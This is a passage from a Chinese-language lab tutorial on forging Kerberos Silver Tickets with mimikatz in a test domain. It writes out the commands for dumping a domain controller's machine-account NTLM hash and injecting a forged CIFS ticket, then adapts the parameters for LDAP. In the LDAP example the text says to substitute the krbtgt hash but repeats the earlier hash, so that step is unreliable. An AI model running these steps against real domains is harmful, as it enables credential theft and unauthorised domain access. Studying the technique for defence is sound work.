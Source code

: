 首先需要获得如下信息：

*   /domain
*   /sid
*   /target:目标服务器的域名全称，此处为域控的全称
*   /service：目标服务器上面的kerberos服务，此处为cifs
*   /rc4：计算机账户的NTLM hash，域控主机的计算机账户
*   /user：要伪造的用户名，此处可用silver测试

在域控上执行如下命令来获取域控主机的本地管理员账户hash

```
mimikatz log "sekurlsa::logonpasswords"

```

如图![Alt text](http://drops.javaweb.org/uploads/images/b26363f684cb4d6a073f7b705f7665f7f03a63f7.jpg)

> **注：**
> 
> 此处要找到计算机账户，也就是`Username : WIN-8VVLRPIAJB0$`的`NTLM hash`，如果是其他账户，那么会失败

整理以上获得的信息如下：

*   /domain:test.local
*   /sid:S-1-5-21-4155807533-921486164-2767329826
*   /target:WIN-8VVLRPIAJB0.test.local
*   /service:cifs
*   /rc4:d5304f9ea69523479560ca4ebb5a2155
*   /user:silver

使用mimikatz执行如下命令导入Silver Ticket

```
mimikatz "kerberos::golden /domain:test.local /sid:S-1-5-21-4155807533-921486164-2767329826 /target:WIN-8VVLRPIAJB0.test.local /service:cifs /rc4:d5304f9ea69523479560ca4ebb5a2155 /user:silver /ptt"

```

如图，成功导入，此时可以成功访问域控上的文件共享

![Alt text](http://drops.javaweb.org/uploads/images/6fe9b6a7baf5795200f80e2a7ed7079f8c890582.jpg)

![Alt text](http://drops.javaweb.org/uploads/images/98fbeb256a4d5428b19df97f055d822e9cf1aaea.jpg)

**为了加深理解，再举一个例子**

**访问域控上的“LDAP”服务**

整理信息如下，只需要把/service的名称改为LDAP,/user改为krbtgt,/rc4改为krbtgt的NTLM HASH

*   /domain:test.local
*   /sid:S-1-5-21-4155807533-921486164-2767329826
*   /target:WIN-8VVLRPIAJB0.test.local
*   /service:LDAP
*   /rc4:d5304f9ea69523479560ca4ebb5a2155
*   /user:krbtgt
